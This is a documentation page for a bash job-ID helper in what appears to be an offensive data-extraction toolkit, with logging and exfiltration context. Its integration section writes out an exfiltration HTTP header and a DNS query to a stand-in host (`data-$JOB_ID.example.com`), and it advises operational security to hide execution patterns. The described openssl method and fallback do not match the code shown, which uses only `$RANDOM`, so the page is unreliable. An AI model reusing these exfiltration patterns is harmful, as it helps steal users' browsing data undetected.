 # Generate Job ID Function

## Overview
The `core_generate_job_id()` function creates a unique 8-character hexadecimal identifier for tracking script execution across logging, exfiltration, and debugging operations.

## Function Signature
```bash
core_generate_job_id()
```

## Parameters
- **Inputs**: None
- **Outputs**: 8-character hexadecimal job ID (e.g., "a1b2c3d4")
- **Logic**: None

## Implementation
```bash
# Purpose: core_generate_job_id function implementation
core_generate_job_id() {
# Simple random job ID - just a random identifier
    printf "%08x" "$((RANDOM * RANDOM))"
}
```

## Usage Examples

### Basic Usage
```bash
# Generate a job ID at script startup
JOB_ID=$(core_generate_job_id)
echo "Job ID: $JOB_ID"
# Output: Job ID: a1b2c3d4
```

### In Logging Context
```bash
# Used in log entries for correlation
core_log_output "Starting browser history extraction" "info" false
# Log entry includes: [job:a1b2c3d4] ...
```

### In Exfiltration Context
```bash
# Used to correlate exfiltrated data chunks
core_exfiltrate_data "$output_data"
# HTTP headers include: X-Job-ID: a1b2c3d4
```

## Fallback Behavior

### Primary Method
- Uses `openssl rand -hex 4` for cryptographically secure random generation
- Produces true random 8-character hex strings

### Fallback Method
- Uses timestamp-based generation when OpenSSL unavailable
- Formula: `printf "%08x" "$(($(date +%s) % 4294967296))"`
- Still provides unique IDs based on execution time

## Integration Points

### Global Variable Assignment
```bash
# At script initialization in base.sh
JOB_ID=$(core_generate_job_id)
```

### Logging Integration
```bash
# Used in core_log_output function
printf "[job:%s] %s\n" "$JOB_ID" "$message"
```

### Exfiltration Integration
```bash
# HTTP headers
-H "X-Job-ID: $JOB_ID"

# DNS queries
dig "data-$JOB_ID.example.com"
```

## Security Considerations

### Randomness Quality
- Primary method uses OpenSSL's cryptographically secure random generator
- Fallback method provides time-based uniqueness (not cryptographically secure)
- 8-character hex provides 4.3 billion possible values

### Information Disclosure
- Job IDs are transmitted in logs and exfiltration
- Consider operational security when using in sensitive environments
- IDs help correlate activities but may reveal script execution patterns

## Dependencies
- **Required**: `date` command (POSIX standard)
- **Optional**: `openssl` command (for secure random generation)
- **Variables**: `$CMD_OPENSSL`, `$CMD_PRINTF`

## Error Handling
- Graceful fallback when OpenSSL unavailable
- No error conditions - always returns valid 8-character hex string
- Silent fallback maintains script execution flow

## Performance
- **Primary**: ~5ms (OpenSSL execution)
- **Fallback**: ~1ms (date calculation)
- **Memory**: Minimal (single function call)
- **Network**: None

## Testing
```bash
# Test primary method
if command -v openssl > /dev/null 2>&1; then
    job_id=$(core_generate_job_id)
    echo "Generated: $job_id"
    # Should output 8 hex characters
fi

# Test fallback method
CMD_OPENSSL="/nonexistent/openssl"
job_id=$(core_generate_job_id)
echo "Fallback: $job_id"
# Should output 8 hex characters based on timestamp
``` 